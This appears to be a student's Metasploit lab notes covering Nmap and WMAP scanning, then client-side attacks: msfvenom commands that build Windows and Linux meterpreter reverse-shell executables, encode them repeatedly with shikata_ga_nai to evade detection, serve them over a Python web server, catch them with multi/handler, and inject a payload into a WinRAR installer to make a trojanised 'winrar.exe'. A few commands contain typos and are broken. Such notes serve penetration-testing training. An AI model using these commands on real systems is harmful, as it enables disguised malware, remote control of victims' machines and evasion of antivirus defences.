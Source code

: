 
vulnerability scanning with MSF
- vulnerability scanning and detection is the process of scanning a target for vulnerabilities and verifying whether they can be exploited 

# vulnerability scanning with MSF LAB
	sudo nmap -sn ip
	msfconsole
	db_status
	setg RHOSTS ip
	workspace -a M53
	db_nmap -sS -sV -O ip 



### Web app vulnerability scanning with WMAP
	service postgresql start
	msfconsole 
	load wmap
	wmap_sites -a ip
	wmap_targets -i http://ip
	wmap_sites -l 
	wmap_targets -l
	wmap_run -t
	wmap_run -e
	you could use another metasploit

## Client Side attacks
Payloads --Generating payloads with msfvenom
client side attack is an attack vector that involves coercing a client to execute a malicious payload

- client-side attack typically utilize various social engineering techniques like generating malicious documents or portable executable

### Lab Payloads
	msfvenom --list payloads
	(windows) msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHSOST=ip LPORT=1234 -f exe > /home/kali/Desktop/Windows_Payloads/payloadx86.exe
	(windows) msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=ip LPORT=1234 -f exe > /home/kali/Desktop/Windows_Payloads/payloadx64.exe
	msfvenom --list formats
	cd ..
	mkdir
	(linux) msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=ip LPORT=1234 -f elf > ~/Desktop/Linux_Payloads/payloadx86.exe
	ls
	sudo python3 -m http.server
	in another window
	msfconsole 
	use mutli/handler
	set payload windows/meterpreter/reverse_tcp
	show options
	set LHOST ip
	set LPORT 1234
	exploit
	sysinfo
	cd /Desktop/Linux_Payloads
	./payloadx86.exe
	use multi/handler
	set payload linux/x86/meterpreter/reverse_tcp
	exploit
	it will run a meterpreter u can access linux machine
	ls -la 

## Encoding Payloads with Msfvenom
	(windows) msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip LPORT=1234 -e x86 /shikata_ga_nai -f exe > ~/Desktop/Windows_Payloads/encodedx86.exe
	rm encodedx86.exe
	(windows) msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip LPORT=1234 -i 10 -e x86/shikata_ga_nai -f exe > ~/Desktop/Windows_Payloads/encodedx86.exe
	ls
	cd ..
	(linux) msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=ip LPORT=1234 -i 10 -e x86/shikata_ga_nai -f elf > ~/Desktop/Linux_Payloads/encodedx86.exe
	cd Windows_Payloads
	sudo python -m http.server
	msfvenom
	set payload windows/meterpreter/reverse_tcp
	set LHOST ip
	set LPORT 1234
	show options
	exploit
	set payload linux/x86/meterpreter/reverse_tcp
	set LHOST ip
	set LPORT 1234
	exploit


### injecting payloads into windows portable executable
	msfvenom
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip LPORT=1234 -e x86/shikata_ga_nai -i 10 -f exe -x ~/Downloads/wrar602.exe > ~/Desktop/Windows_Payloads/winrar.exe
